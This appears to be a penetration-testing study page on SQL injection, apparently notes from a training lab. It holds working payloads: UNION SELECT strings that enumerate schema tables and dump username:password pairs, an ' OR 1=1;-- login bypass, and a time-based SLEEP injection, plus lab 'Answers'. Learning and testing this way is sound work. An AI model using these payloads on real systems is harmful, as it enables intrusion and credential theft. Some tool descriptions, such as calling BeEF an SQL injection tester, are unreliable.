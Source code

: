 # SQL Injection

## Description

SQL Injection is a type of security vulnerability that occurs in web applications that use SQL as a back-end database. It allows an attacker to inject malicious code into an SQL statement and execute it on the database. This can result in unauthorized access to sensitive information, data modification, or even data deletion. The vulnerability arises when user-supplied input is not properly validated and escaped before being used in an SQL query. By exploiting SQL Injection, an attacker can bypass authentication mechanisms, retrieve sensitive information such as passwords, and execute arbitrary commands on the database server.


## Techniques

The following are the steps for using SQL Injection as a penetration tester:  

Discover: Find out if the web application is vulnerable to SQL Injection by manually sending crafted input to the application and observing its behavior.

Exploit: If the application is found to be vulnerable, use tools and techniques to exploit the vulnerability and gain access to sensitive data.

Assessment: Once the vulnerability has been exploited, assess the impact of the vulnerability by examining the data that has been exposed, the privileges that have been gained, and the potential for further exploitation.

Reporting: Provide a report to the organization that details the vulnerability, its impact, and the recommended remediation steps.

## Types

UNION-based SQL injection: This type of SQL injection exploits the UNION SQL operator to combine the results of multiple SELECT statements into a single result set.

Error-based SQL injection: This type of SQL injection is based on error messages generated by the database in response to malicious input.

Blind SQL injection: This type of SQL injection is performed when an attacker is unable to see the results of their attacks directly, but must infer the results through indirect means such as observing changes in application behavior.

Boolean-based SQL injection: This type of SQL injection is based on the use of Boolean operators to manipulate the behavior of an SQL statement.

Time-based SQL injection: This type of SQL injection exploits the time it takes for an SQL statement to execute to extract information from a database.

## Resources

select * from users;

select username,password from users;

select * from users where username='admin';

select * from users where username != 'admin';

select * from users where username='admin' or username='jon';

select * from users where username='admin' and password='p4ssword';

select * from users where username like 'a%';

select * from users where username like '%n';

select * from users where username like '%mi%';

The UNION statement combines the results of two or more SELECT statements to retrieve data

SELECT name,address,city,postcode from customers UNION SELECT company,address,city,postcode from suppliers;

insert into users (username,password) values ('bob','password123');

update users SET username='root',password='pass123' where username='admin';

delete from users where username='martin';

delete from users;

In-Band SQL Injection

Error-Based SQL Injection

Union-Based SQL Injection

0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'

0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

select * from users where username='%username%' and password='%password%' LIMIT 1;

' OR 1=1;--

select * from users where username='' and password='' OR 1=1;

Answers:

0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

referrer=admin123' UNION SELECT SLEEP(5),2 from users where username like ‘admin’ and password like ‘4961’;

Remediation:

Prepared Statements (With Parameterized Queries):
Input Validation:
Escaping User Input:

## Tools

sqlmap: A popular tool that automates the process of detecting and exploiting SQL Injection vulnerabilities.

OWASP ZAP: A web application security scanner that can detect SQL Injection vulnerabilities and other types of vulnerabilities.

Burp Suite: A comprehensive web application security testing platform that includes features for detecting and exploiting SQL Injection vulnerabilities.

BeEF: A browser exploitation framework that can be used to test for SQL Injection vulnerabilities.

sqlninja: A tool specifically designed for exploiting SQL Injection vulnerabilities in Microsoft SQL Server.

Havij: An automated SQL Injection tool that can be used to test for vulnerabilities in web applications.

Absinthe: An automated SQL Injection tool that can be used to test for vulnerabilities in web applications.

## SQL Injection

* http://pentestmonkey.net/category/cheat-sheet/sql-injection
* https://github.com/Xyntax/CDK/wiki 
